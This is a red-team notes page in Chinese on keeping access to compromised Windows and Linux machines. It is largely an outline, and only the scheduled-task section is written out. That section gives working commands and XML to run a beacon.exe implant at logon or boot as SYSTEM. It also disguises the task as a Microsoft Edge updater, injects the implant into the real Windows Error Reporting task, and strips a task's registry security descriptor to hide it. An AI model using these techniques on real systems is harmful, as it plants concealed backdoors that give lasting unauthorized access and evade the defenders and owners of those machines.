# [Red Team: Persistence](https://www.raingray.com/archives/3890.html)

拿下 Foothold 后要做 Persistence，确保入口掉线后还有备用，既权限维持，或者持久化。

## 目录

-   [目录](#%E7%9B%AE%E5%BD%95)
-   [1 WebShell⚒️](#1+WebShell%E2%9A%92%EF%B8%8F)
-   [2 Windows](#2+Windows)
    -   [2.1 Scheduled Tasks⚒️](#2.1+Scheduled+Tasks%E2%9A%92%EF%B8%8F)
        -   [2.1.1 命令创建任务](#2.1.1+%E5%91%BD%E4%BB%A4%E5%88%9B%E5%BB%BA%E4%BB%BB%E5%8A%A1)
        -   [2.1.2 XML 创建任务](#2.1.2+XML+%E5%88%9B%E5%BB%BA%E4%BB%BB%E5%8A%A1)
        -   [2.1.3 自动化创建任务](#2.1.3+%E8%87%AA%E5%8A%A8%E5%8C%96%E5%88%9B%E5%BB%BA%E4%BB%BB%E5%8A%A1)
        -   [2.1.4 多操作执行](#2.1.4+%E5%A4%9A%E6%93%8D%E4%BD%9C%E6%89%A7%E8%A1%8C)
        -   [2.1.5 隐藏任务⚒️](#2.1.5+%E9%9A%90%E8%97%8F%E4%BB%BB%E5%8A%A1%E2%9A%92%EF%B8%8F)
            -   [删除注册表 SD](#%E5%88%A0%E9%99%A4%E6%B3%A8%E5%86%8C%E8%A1%A8+SD)
    -   [2.2 ShortCut File (.lnk)⚒️](#2.2+ShortCut+File+%28.lnk%29%E2%9A%92%EF%B8%8F)
    -   [2.3 Login](#2.3+Login)
        -   [2.3.1 Registry Run Keys / Startup Folder](#2.3.1+Registry+Run+Keys+%2F+Startup+Folder)
        -   [2.3.2 Logon Script](#2.3.2+Logon+Script)
        -   [2.3.3 WinLogon](#2.3.3+WinLogon)
    -   [2.4 DLL Hijacking and Proxying](#2.4+DLL+Hijacking+and+Proxying)
        -   [2.4.1 DLL Search Order Hijacking](#2.4.1+DLL+Search+Order+Hijacking)
        -   [2.4.2 DLL Proxing](#2.4.2+DLL+Proxing)
        -   [2.4.3 Mitigation](#2.4.3+Mitigation)
    -   [2.5 COM Hijacking⚒️](#2.5+COM+Hijacking%E2%9A%92%EF%B8%8F)
    -   [2.6 Service⚒️](#2.6+Service%E2%9A%92%EF%B8%8F)
        -   [2.6.1 Create or Modified Service](#2.6.1+Create+or+Modified+Service)
        -   [2.6.2 IIS⚒️](#2.6.2+IIS%E2%9A%92%EF%B8%8F)
        -   [2.6.3 SQL Server⚒️](#2.6.3+SQL+Server%E2%9A%92%EF%B8%8F)
    -   [2.7 Create Account](#2.7+Create+Account)
        -   [2.7.1 Hidden Account](#2.7.1+Hidden+Account)
        -   [2.7.2 RID Hijacking](#2.7.2+RID+Hijacking)
    -   [2.8 Accessibility Features⚒️](#2.8+Accessibility+Features%E2%9A%92%EF%B8%8F)
        -   [2.8.1 Utility Manager⚒️](#2.8.1+Utility+Manager%E2%9A%92%EF%B8%8F)
        -   [2.8.2 On-Screen Keyboard⚒️](#2.8.2+On-Screen+Keyboard%E2%9A%92%EF%B8%8F)
        -   [2.8.3 Magnifier⚒️](#2.8.3+Magnifier%E2%9A%92%EF%B8%8F)
        -   [2.8.4 High Contrast⚒️](#2.8.4+High+Contrast%E2%9A%92%EF%B8%8F)
        -   [2.8.5 Sticky Keys⚒️](#2.8.5+Sticky+Keys%E2%9A%92%EF%B8%8F)
        -   [2.8.6 Filter Keys⚒️](#2.8.6+Filter+Keys%E2%9A%92%EF%B8%8F)
        -   [2.8.7 Narrator⚒️](#2.8.7+Narrator%E2%9A%92%EF%B8%8F)
    -   [2.9 Terminal Profile⚒️](#2.9+Terminal+Profile%E2%9A%92%EF%B8%8F)
        -   [2.9.1 PowerShell](#2.9.1+PowerShell)
        -   [2.9.2 WIndows Terminal](#2.9.2+WIndows+Terminal)
    -   [2.10 Screensaver⚒️](#2.10+Screensaver%E2%9A%92%EF%B8%8F)
    -   [2.11 IFEO Injection⚒️](#2.11+IFEO+Injection%E2%9A%92%EF%B8%8F)
    -   [2.12 Telemetry⚒️](#2.12+Telemetry%E2%9A%92%EF%B8%8F)
-   [3 Linux](#3+Linux)
    -   [3.1 Shared Library Hijacking⚒️](#3.1+Shared+Library+Hijacking%E2%9A%92%EF%B8%8F)
    -   [3.2 Crontab⚒️](#3.2+Crontab%E2%9A%92%EF%B8%8F)
    -   [3.3 Shell Startup Files⚒️](#3.3+Shell+Startup+Files%E2%9A%92%EF%B8%8F)
    -   [3.4 VIM⚒️](#3.4+VIM%E2%9A%92%EF%B8%8F)
    -   [3.5 SSH⚒️](#3.5+SSH%E2%9A%92%EF%B8%8F)
    -   [3.6 Apache⚒️](#3.6+Apache%E2%9A%92%EF%B8%8F)
-   [参考资料](#%E5%8F%82%E8%80%83%E8%B5%84%E6%96%99)

## 1 WebShell⚒️

放免杀 WebShell。

写明权限维持的必要性。

比如刚拿 Shell 后，为什么要维持。

在正常脚本文件中插入后门。

## 2 Windows

\[PayloadsAllTheThings/Windows - Persistence.md at master · swisskyrepo/PayloadsAllTheThings · GitHub\]([https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology) and Resources/Windows - Persistence.md#iis)

[尝试黑客我 |Windows Local Persistence (tryhackme.com)](https://tryhackme.com/room/windowslocalpersistence)

[持久性 - 红队笔记 (ired.team)](https://www.ired.team/offensive-security/persistence)

[红队操作员：视窗持久性课程 (sektor7.net)](https://institute.sektor7.net/rto-windows-persistence)

[persistence-info/persistence-info.github.io](https://github.com/persistence-info/persistence-info.github.io)

先梳理目录：[Windows Persistence - Google 搜索](https://www.google.com/search?q=Windows+Persistence&sxsrf=APwXEdfKemmld8-Wb-CJH8XZKRcjllVI3Q:1682328372130&ei=NEtGZJzZB4KY-AaP1rc4&start=10&sa=N&ved=2ahUKEwicw5DImcL-AhUCDN4KHQ_rDQcQ8NMDegQIBhAQ&biw=1488&bih=762&dpr=1.25)

[计划任务 | Raven Medicine (raven-medicine.com)](https://raven-medicine.com/books/ec8ce/page/ef575)

[Pan1da的个人空间\_哔哩哔哩\_bilibili](https://space.bilibili.com/204756129/channel/seriesdetail?sid=2654412&ctype=0)

\[CRTO Book.pdf\](file:///D:/raingray/Learn/培训内容/CRTO Book.pdf)

### 2.1 Scheduled Tasks⚒️

任务计划的利用条件，需要使用管理员权限新建任务计划。不然无法使用。

#### 2.1.1 命令创建任务

/SC 指定触发器为每次登录时执行，/TN 任务名称，/TR 指定要运行的程序，/RU 以什么用户身份运行。

```plaintext
PS C:\Users\123> SCHTASKS /Create /SC ONLOGON /TN Update /TR C:\Users\123\Desktop\beacon.exe /RU SYSTEM
成功: 成功创建计划任务 "Update"。
```

手动运行任务。

```plaintext
PS C:\Users\123> SCHTASKS /Run /TN Update
成功: 尝试运行 "Update"。
```

或者重新登陆后以 SYSTEM 权限运行任务，SYSTEM 完整性级别。



不指定就默认以当前创建任务的账户，中等完整性级别。

```plaintext
PS C:\Users\123> SCHTASKS /Create /SC ONLOGON /TN Update /TR C:\Users\123\Desktop\beacon.exe
成功: 成功创建计划任务 "Update"。
```



在不需要任务计划时，可手动删除。

```plaintext
PS C:\Users\123> SCHTASKS /Delete /TN Update /F
成功: 计划的任务 "Update" 被成功删除。
```

#### 2.1.2 XML 创建任务

前面通过 SCHTASKS 命令创建的任务，描述、创建者、创建时间都不能通过选项自定义，使用命令创建不够隐蔽，解决起来有两种解决方案，第一种可能要从 [Windows API 创建](https://learn.microsoft.com/en-us/windows/win32/taskschd/daily-trigger-example--c---)才行，第二种是通过 XML 创建任务。

为了先了解 XML 创建任务的标签结构，先创建一个以当前用户运行的任务计划。

```plaintext
PS C:\Users\123> SCHTASKS /Create /SC ONLOGON /TN Update /TR C:\Users\123\Desktop\beacon.exe /RU SYSTEM
成功: 成功创建计划任务 "Update"。
```

查询任务以 XML 显示，输出重定向到文件。

```plaintext
PS C:\Users\123> SCHTASKS /Query /TN Update /XML > desktop/update.xml
```

update.xml。

```xml
<?xml version="1.0" encoding="UTF-16"?>
<Task version="1.2"
    xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task">
    <RegistrationInfo>
        <Date>2023-04-26T16:56:44</Date>
        <Author>DESKTOP-AKRQV41\123</Author>
        <URI>\Update</URI>
    </RegistrationInfo>
    <Principals>
        <Principal id="Author">
            <UserId>S-1-5-18</UserId>
        </Principal>
    </Principals>
    <Settings>
        <DisallowStartIfOnBatteries>true</DisallowStartIfOnBatteries>
        <StopIfGoingOnBatteries>true</StopIfGoingOnBatteries>
        <MultipleInstancesPolicy>IgnoreNew</MultipleInstancesPolicy>
        <IdleSettings>
            <Duration>PT10M</Duration>
            <WaitTimeout>PT1H</WaitTimeout>
            <StopOnIdleEnd>true</StopOnIdleEnd>
            <RestartOnIdle>false</RestartOnIdle>
        </IdleSettings>
    </Settings>
    <Triggers>
        <LogonTrigger>
            <StartBoundary>2023-04-26T16:56:00</StartBoundary>
        </LogonTrigger>
    </Triggers>
    <Actions Context="Author">
        <Exec>
            <Command>C:\Users\123\Desktop\beacon.exe</Command>
        </Exec>
    </Actions>
</Task>
```

这 update.xml 中标签有：

-   [Principals](https://learn.microsoft.com/en-us/windows/win32/taskschd/taskschedulerschema-principals-tasktype-element)，涉及安全、权限的内容
    
    -   [Principal](https://learn.microsoft.com/en-us/windows/win32/taskschd/taskschedulerschema-principal-principaltype-element)
        -   UserId，这里就是 SYSTEM 用户 [SID](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-identifiers#well-known-sids)
        -   [RunLevel](https://learn.microsoft.com/en-us/windows/win32/taskschd/taskschedulerschema-runleveltype-simpletype)，设置运行完整性级别
    
    [RegistrationInfo](https://learn.microsoft.com/en-us/windows/win32/taskschd/taskschedulerschema-registrationinfo-tasktype-element)，注册任务的信息
    
    -   Date，任务创建时间
        
    -   Author，创建任务的用户名
        
    -   Description，任务注释
        
    -   URI，任务名称，斜杠是代表位置，哪个文件夹下。
        
        
        
-   Settings，触发条件
    
    -   DisallowStartIfOnBatteries，只有在计算机使用交流电源时才启动此任务
        
    -   StopIfGoingOnBatteries，如果计算机改用电池电源，则停止
        
    -   [MultipleInstancesPolicy](https://learn.microsoft.com/en-us/windows/win32/taskschd/taskschedulerschema-multipleinstancespolicy-settingstype-element)，多任务控制，已经有任务再运行，就不再运行新任务
        
    -   [IdleSettings](https://learn.microsoft.com/en-us/windows/win32/taskschd/taskschedulerschema-idlesettings-settingstype-element)，空闲设置
        
        -   Duration，空闲 10 分钟
            
        -   WaitTimeout，等待空闲 1 小时
            
        -   StopOnIdleEnd，不空闲就停止
            
        -   RestartOnIdle，再次空闲不再重新执行任务
            
            
            
-   [Triggers](https://learn.microsoft.com/en-us/windows/win32/taskschd/taskschedulerschema-triggers-tasktype-element)，触发器
    
    -   LogonTrigger，登录触发器
        
        -   StartBoundary，触发器启用日期
    
    
    
-   [Actions](https://learn.microsoft.com/en-us/windows/win32/taskschd/taskschedulerschema-actions-tasktype-element)，要执行的操作
    
    -   Exec
        -   Command
        -   Arguments
    
    
    

了解这些标签的含义后，对上面内容做了小小修改，伪装成正常任务。

```xml
<?xml version="1.0" encoding="UTF-16"?>
<Task version="1.2"
    xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task">
    <RegistrationInfo>
        <Author>Microsoft Corporation</Author>
        <Description>使你的 Microsoft 软件保持最新状态。如果此任务已禁用或停止，则 Microsoft 软件将无法保持最新状态，这意味 着无法修复可能产生的安全漏洞，并且功能也可能无法使用。如果没有 Microsoft 软件使用此任务，则此任务将自行卸载。</Description>
        <URI>\MicrosoftEdgeUpdateTaskMachineRelease</URI>
    </RegistrationInfo>
    <Principals>
        <Principal id="Author">
            <UserId>S-1-5-21-2973696153-3313763339-1684698060-1001</UserId>
            <LogonType>InteractiveToken</LogonType>
            <RunLevel>HighestAvailable</RunLevel>
        </Principal>
    </Principals>
    <Settings>
        <DisallowStartIfOnBatteries>false</DisallowStartIfOnBatteries>
        <StopIfGoingOnBatteries>false</StopIfGoingOnBatteries>
        <MultipleInstancesPolicy>IgnoreNew</MultipleInstancesPolicy>
        <IdleSettings>
            <StopOnIdleEnd>true</StopOnIdleEnd>
            <RestartOnIdle>false</RestartOnIdle>
        </IdleSettings>
    </Settings>
    <Triggers>
        <LogonTrigger>
            <StartBoundary>2023-04-26T16:56:00</StartBoundary>
        </LogonTrigger>
    </Triggers>
    <Actions Context="Author">
        <Exec>
            <Command>C:\Users\123\Desktop\beacon.exe</Command>
        </Exec>
    </Actions>
</Task>
```

删除了任务创建时间 `<Date>`，与大多数任务保持一致。

修改创建者 `<Author>` 伪装成 Microsoft Corporation。

新增任务描述 `<Description>`：

```undefined
使你的 Microsoft 软件保持最新状态。如果此任务已禁用或停止，则 Microsoft 软件将无法保持最新状态，这意味 着无法修复可能产生的安全漏洞，并且功能也可能无法使用。如果没有 Microsoft 软件使用此任务，则此任务将自行卸载。
```

任务名称 `<URI>` 更换为 MicrosoftEdgeUpdateTaskMachineRelease。

将 `<UserId>` 做修改。使用当前管理员用户 SID 运行任务计划。

```plaintext
PS C:\Users\123> whoami /USER /FO LIST

用户信息
----------------

用户名: desktop-akrqv41\123
SID:    S-1-5-21-2973696153-3313763339-1684698060-1001
```

`<LogonType>` 设置为当前登录类型为 Token，暂时没搞清楚原理，就保持默认。

由于没有用 SID 为了避免运行后完整性级别是中等，这里主动设置完整性级别 `<RunLevel>` HighestAvailable，提升为 Hgih 完整性级别。

`<DisallowStartIfOnBatteries>` 和 `<StopIfGoingOnBatteries>` 改为 False，避免使用在笔记本电源时不执行任务。其子标签 `<Duration>` 和 `<WaitTimeout>` 也删除了，不删除会报错，不知道原因在哪。

修改完毕，powershell 输出重定向到文件。

```plaintext
echo '<?xml version="1.0" encoding="UTF-16"?><Task version="1.2" xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task"><RegistrationInfo><Author>Microsoft Corporation</Author><Description>使你的 Microsoft 软件保持最新状态。如果此任务已禁用或停止，则 Microsoft 软件将无法保持最新状态，这意味 着无法修复可能产生的安全漏洞，并且功能也可能无法使用。如果没有 Microsoft 软件使用此任务，则此任务将自行卸载。</Description><URI>\MicrosoftEdgeUpdateTaskMachineRelease</URI></RegistrationInfo><Principals><Principal id="Author"><UserId>S-1-5-21-2973696153-3313763339-1684698060-1001</UserId><LogonType>InteractiveToken</LogonType><RunLevel>HighestAvailable</RunLevel></Principal></Principals><Settings><DisallowStartIfOnBatteries>false</DisallowStartIfOnBatteries><StopIfGoingOnBatteries>false</StopIfGoingOnBatteries><MultipleInstancesPolicy>IgnoreNew</MultipleInstancesPolicy><IdleSettings><StopOnIdleEnd>true</StopOnIdleEnd><RestartOnIdle>false</RestartOnIdle></IdleSettings></Settings><Triggers><LogonTrigger><StartBoundary>2023-04-26T16:56:00</StartBoundary></LogonTrigger></Triggers><Actions Context="Author"><Exec><Command>C:\Users\123\Desktop\beacon.exe</Command></Exec></Actions></Task>' > task.xml
```

创建时使用 XML 创建任务，取名为 MicrosoftEdgeUpdateTaskMachineRelease。

```plaintext
PS C:\Users\123\desktop> SCHTASKS /Create /TN MicrosoftEdgeUpdateTaskMachineRelease /XML task.xml
成功: 成功创建计划任务 "MicrosoftEdgeUpdateTaskMachineRelease"。
PS C:\Users\123\desktop> rm task.xml
```

查询详情。

```plaintext
PS C:\Users\123> SCHTASKS /Query /TN MicrosoftEdgeUpdateTaskMachineRelease /FO LIST /V

文件夹: \
主机名:                             DESKTOP-AKRQV41
任务名:                             \MicrosoftEdgeUpdateTaskMachineRelease
下次运行时间:                       N/A
模式:                               就绪
登录状态:                           只使用交互方式
上次运行时间:                       1999/11/30 0:00:00
上次结果:                           267011
创建者:                             Microsoft Corporation
要运行的任务:                       C:\Users\123\Desktop\beacon.exe
起始于:                             N/A
注释:                               使你的 Microsoft 软件保持最新状态。如果此任务已禁用或停止，则 Microsoft 软件将无法保持最新状态，这意味 着无法修复可能产生的安全漏洞，并且功能也可能无法使用。如果没有 Microsoft 软件使用此任务，则此任务将自行卸载。
计划任务状态:                       已启用
空闲时间:                           已禁用
电源管理:                           在电池模式停止
作为用户运行:                       123
删除没有计划的任务:                 已禁用
如果运行了 X 小时 X 分钟，停止任务: 72:00:00
计划:                               计划数据在此格式中不可用。
计划类型:                           登陆时
开始时间:                           N/A
开始日期:                           N/A
结束日期:                           N/A
天:                                 N/A
月:                                 N/A
重复: 每:                           N/A
重复: 截止: 时间:                   N/A
重复: 截止: 持续时间:               N/A
重复: 如果还在运行，停止:           N/A
PS C:\Users\123>
```



重新登录后是以当前用户高完整性级别运行 Beacon。



#### 2.1.3 自动化创建任务

[SharPersist](https://github.com/mandiant/SharPersist/tree/master) 使用 SYSTEM 权限，自动化创建 MicrosoftEdgeUpdateTaskMachineRelease 任务，触发器选择 logon 登录触发，执行命令 C:\\Users\\123\\Desktop\\beacon.exe。

```plaintext
PS C:\Users\123\desktop> .\SharPersist.exe -t schtask -m add -o logon -n MicrosoftEdgeUpdateTaskMachineRelease -c C:\Users\123\Desktop\beacon.exe

[*] INFO: Adding scheduled task persistence
[*] INFO: Command: C:\Users\123\Desktop\beacon.exe
[*] INFO: Command Args:
[*] INFO: Scheduled Task Name: MicrosoftEdgeUpdateTaskMachineRelease
[*] INFO: Option: logon


[+] SUCCESS: Scheduled task added
```

可以看到以 `<UserId>` SYSTEM 权限运行命令，存在创建时间 `<Date>` 2023/04/27 10:05:36，注释和任务名一样。并没想象中好用，如果可以把创建时间和注释选项加上就更好了。

```xml
PS C:\Users\123\desktop> SCHTASKS /Query /TN MicrosoftEdgeUpdateTaskMachineRelease /XML
<?xml version="1.0" encoding="UTF-16"?>
<Task version="1.2" xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task">
  <RegistrationInfo>
    <Date>2023-04-27T10:05:36.646+08:00</Date>
    <Description>MicrosoftEdgeUpdateTaskMachineRelease</Description>
    <URI>\MicrosoftEdgeUpdateTaskMachineRelease</URI>
  </RegistrationInfo>
  <Principals>
    <Principal id="Author">
      <UserId>S-1-5-18</UserId>
    </Principal>
  </Principals>
  <Settings>
    <DisallowStartIfOnBatteries>false</DisallowStartIfOnBatteries>
    <StopIfGoingOnBatteries>false</StopIfGoingOnBatteries>
    <MultipleInstancesPolicy>IgnoreNew</MultipleInstancesPolicy>
    <IdleSettings>
      <Duration>PT10M</Duration>
      <WaitTimeout>PT1H</WaitTimeout>
      <StopOnIdleEnd>true</StopOnIdleEnd>
      <RestartOnIdle>false</RestartOnIdle>
    </IdleSettings>
  </Settings>
  <Triggers>
    <LogonTrigger />
  </Triggers>
  <Actions Context="Author">
    <Exec>
      <Command>C:\Users\123\Desktop\beacon.exe</Command>
    </Exec>
  </Actions>
</Task>
```

#### 2.1.4 多操作执行

修改现有任务计划增加隐蔽性，将任务单 Action，新增一个变成多个 Action。

怎么找一个合适的任务？我主要看两点，一是最近的运行时间和计划类型，这说明最近运行过，也能知道触发类型是什么，二是以什么权限运行，主要看是不是 SYSTEM 或者高权限用户。

这里找到了一个 `\Microsoft\Windows\Windows Error Reporting\QueueReporting`，有一个 BootTrigger 触发器开机时启动。

```xml
PS C:\Users\123\desktop> SCHTASKS /Query /TN '\Microsoft\Windows\Windows Error Reporting\QueueReporting' /XML
<?xml version="1.0" encoding="UTF-16"?>
<Task version="1.6" xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task">
  <RegistrationInfo>
    <Version>1.5</Version>
    <SecurityDescriptor>D:(A;;FA;;;BA)(A;;FA;;;SY)(A;;FRFX;;;WD)</SecurityDescriptor>
    <Source>$(@%SystemRoot%\system32\wer.dll,-292)</Source>
    <Author>$(@%SystemRoot%\system32\wer.dll,-293)</Author>
    <Description>$(@%SystemRoot%\system32\wer.dll,-294)</Description>
    <URI>\Microsoft\Windows\Windows Error Reporting\QueueReporting</URI>
  </RegistrationInfo>
  <Principals>
    <Principal id="LocalSystem">
      <UserId>S-1-5-18</UserId>
      <RunLevel>HighestAvailable</RunLevel>
    </Principal>
  </Principals>
  <Settings>
    <DisallowStartIfOnBatteries>false</DisallowStartIfOnBatteries>
    <StopIfGoingOnBatteries>false</StopIfGoingOnBatteries>
    <ExecutionTimeLimit>PT0S</ExecutionTimeLimit>
    <MultipleInstancesPolicy>Queue</MultipleInstancesPolicy>
    <StartWhenAvailable>true</StartWhenAvailable>
    <IdleSettings>
      <StopOnIdleEnd>false</StopOnIdleEnd>
      <RestartOnIdle>false</RestartOnIdle>
    </IdleSettings>
    <UseUnifiedSchedulingEngine>true</UseUnifiedSchedulingEngine>
  </Settings>
  <Triggers>
    <BootTrigger id="QueueReportingBootTrigger">
      <Delay>PT3M</Delay>
    </BootTrigger>
    <WnfStateChangeTrigger id="QueueReportingWnfTrigger">
      <StateName>7510BCA33A0B9441</StateName>
    </WnfStateChangeTrigger>
    <WnfStateChangeTrigger id="QueueReportingFreeNetworkTrigger">
      <StateName>7510BCA33E0B8441</StateName>
      <Data>03</Data>
    </WnfStateChangeTrigger>
    <WnfStateChangeTrigger id="QueueReportingACPowerTrigger">
      <Delay>PT3M</Delay>
      <StateName>7508BCA3380C960C</StateName>
      <Data>01</Data>
    </WnfStateChangeTrigger>
    <TimeTrigger id="QueueReportingTimeTrigger">
      <StartBoundary>2015-01-01T08:00:00+08:00</StartBoundary>
      <Repetition>
        <Interval>PT4H</Interval>
      </Repetition>
      <RandomDelay>PT1H</RandomDelay>
    </TimeTrigger>
  </Triggers>
  <Actions Context="LocalSystem">
    <Exec>
      <Command>%windir%\system32\wermgr.exe</Command>
      <Arguments>-upload</Arguments>
    </Exec>
  </Actions>
</Task>
```

导出现有任务到文件，修改任务 XML，这里新增了一个 Exec 操作用于执行我们的 Beacon.exe。

```xml
<?xml version="1.0" encoding="UTF-16"?>
<Task version="1.6" xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task">
  <RegistrationInfo>
    <Version>1.5</Version>
    <SecurityDescriptor>D:(A;;FA;;;BA)(A;;FA;;;SY)(A;;FRFX;;;WD)</SecurityDescriptor>
    <Source>$(@%SystemRoot%\system32\wer.dll,-292)</Source>
    <Author>$(@%SystemRoot%\system32\wer.dll,-293)</Author>
    <Description>$(@%SystemRoot%\system32\wer.dll,-294)</Description>
    <URI>\Microsoft\Windows\Windows Error Reporting\QueueReporting</URI>
  </RegistrationInfo>
  <Principals>
    <Principal id="LocalSystem">
      <UserId>S-1-5-18</UserId>
      <RunLevel>HighestAvailable</RunLevel>
    </Principal>
  </Principals>
  <Settings>
    <DisallowStartIfOnBatteries>false</DisallowStartIfOnBatteries>
    <StopIfGoingOnBatteries>false</StopIfGoingOnBatteries>
    <ExecutionTimeLimit>PT0S</ExecutionTimeLimit>
    <MultipleInstancesPolicy>Queue</MultipleInstancesPolicy>
    <StartWhenAvailable>true</StartWhenAvailable>
    <IdleSettings>
      <StopOnIdleEnd>false</StopOnIdleEnd>
      <RestartOnIdle>false</RestartOnIdle>
    </IdleSettings>
    <UseUnifiedSchedulingEngine>true</UseUnifiedSchedulingEngine>
  </Settings>
  <Triggers>
    <BootTrigger id="QueueReportingBootTrigger">
      <Delay>PT3M</Delay>
    </BootTrigger>
    <WnfStateChangeTrigger id="QueueReportingWnfTrigger">
      <StateName>7510BCA33A0B9441</StateName>
    </WnfStateChangeTrigger>
    <WnfStateChangeTrigger id="QueueReportingFreeNetworkTrigger">
      <StateName>7510BCA33E0B8441</StateName>
      <Data>03</Data>
    </WnfStateChangeTrigger>
    <WnfStateChangeTrigger id="QueueReportingACPowerTrigger">
      <Delay>PT3M</Delay>
      <StateName>7508BCA3380C960C</StateName>
      <Data>01</Data>
    </WnfStateChangeTrigger>
    <TimeTrigger id="QueueReportingTimeTrigger">
      <StartBoundary>2015-01-01T08:00:00+08:00</StartBoundary>
      <Repetition>
        <Interval>PT4H</Interval>
      </Repetition>
      <RandomDelay>PT1H</RandomDelay>
    </TimeTrigger>
  </Triggers>
  <Actions Context="LocalSystem">
    <Exec>
      <Command>%windir%\system32\wermgr.exe</Command>
      <Arguments>-upload</Arguments>
    </Exec>
    <Exec>
      <Command>C:\Users\123\Desktop\beacon.exe</Command>
    </Exec>
  </Actions>
</Task>
```

删除源任务，新建任务。

```plaintext
PS C:\Users\123> SCHTASKS /Delete /TN '\Microsoft\Windows\Windows Error Reporting\QueueReporting' /F
成功: 计划的任务 "\Microsoft\Windows\Windows Error Reporting\QueueReporting" 被成功删除。
PS C:\Users\123> SCHTASKS /Create /TN '\Microsoft\Windows\Windows Error Reporting\QueueReporting' /XML Desktop/task.txt
成功: 成功创建计划任务 "\Microsoft\Windows\Windows Error Reporting\QueueReporting"。
```

机器启动后就算不解锁进入桌面，也成功以 SYSTEM 权限运行 beacon.exe。

#### 2.1.5 隐藏任务⚒️

[Windows计划任务的进阶 | AnonySec'Blog (payloads.cn)](https://payloads.cn/2021/0805/advanced-windows-scheduled-tasks.html)

[计划任务 | Raven Medicine (raven-medicine.com)](https://raven-medicine.com/books/ec8ce/page/ef575)

[（英文）隐藏 Windows 计划任务的新方法 (researchgate.net)](https://www.researchgate.net/publication/361444433_New_Methods_to_Hide_Windows_Scheduled_Tasks)

[Tarrask 恶意软件使用计划任务进行防御规避 - Microsoft 安全博客](https://www.microsoft.com/en-us/security/blog/2022/04/12/tarrask-malware-uses-scheduled-tasks-for-defense-evasion/)

[计划任务篡改 |使用安全™实验室 (withsecure.com)](https://labs.withsecure.com/publications/scheduled-task-tampering)

目录梳理，Google 搜索：[Hidden Scheduled Tasks - Google 搜索](https://www.google.com/search?q=Hidden+Scheduled+Tasks&sxsrf=APwXEdd24dyK9HQAodY6Ool3w6vvmdtwnw:1682584713382&ei=iTRKZLGKF5ia0-kP6sOekA8&start=0&sa=N&ved=2ahUKEwjx8pTB1Mn-AhUYzTQHHeqhB_I4ChDy0wN6BAgFEAQ&biw=1488&bih=762&dpr=1.2)

##### 删除注册表 SD

SD（security descriptor）

```plaintext
PS C:\Users\123> REG QUERY 'HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree'

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree
    SD    REG_BINARY    01000494C4000000D000000000000000140000000200B0000800000000021800FF011F0001020000000000052000000020020000000118009F011F000102000000000005200000002002000000021400FF011F00010100000000000512000000000114009F011F00010100000000000512000000000214001601120001010000000000050B00000000021400160112000101000000000005140000000002140016011200010100000000000513000000000B1400FF011F00010100000000000300000000010100000000000512000000010100000000000512000000

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\Microsoft
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\MicrosoftEdgeUpdateTaskMachineCore
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\MicrosoftEdgeUpdateTaskMachineRelease
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\MicrosoftEdgeUpdateTaskMachineUA
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\npcapwatchdog
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\OneDrive Per-Machine Standalone Update Task
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\OneDrive Reporting Task-S-1-5-21-2973696153-3313763339-1684698060-1001
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\OneDrive Reporting Task-S-1-5-21-2973696153-3313763339-1684698060-1003
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\WpsUpdateLogonTask_123
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\WpsUpdateTask_123
```

删除指定任务的 SD 值。

```plaintext
PS C:\Users\123> REG QUERY 'HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\MicrosoftEdgeUpdateTaskMachineRelease'

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\MicrosoftEdgeUpdateTaskMachineRelease
    SD    REG_BINARY    01000480880000009800000000000000140000000200740004000000001018009F011F0001020000000000052000000020020000001014009F011F0001010000000000051200000000101800FF011F0001020000000000052000000020020000000024008900120001050000000000051500000099003FB10B0484C5CC736A64E9030000000000000102000000000005200000002002000001050000000000051500000099003FB10B0484C5CC736A6401020000
    Id    REG_SZ    {9F65D474-E8B9-4E11-A496-11BC8FC24F1E}
    Index    REG_DWORD    0x2
```

```bash
PS C:\Users\123> reg delete 'HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\MicrosoftEdgeUpdateTaskMachineRelease' /v SD /f
错误: 拒绝访问。
```

添加权限

```powershell
REGINI 'HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\MicrosoftEdgeUpdateTaskMachineRelease' [17 20]
```

[Win10注册表无法保存对权限所作的更改拒绝访问\_无法保存对waasmedicsvc权限的更改\_周子青的博客-CSDN博客](https://blog.csdn.net/qq_37674858/article/details/107876060)

### 2.2 ShortCut File (.lnk)⚒️

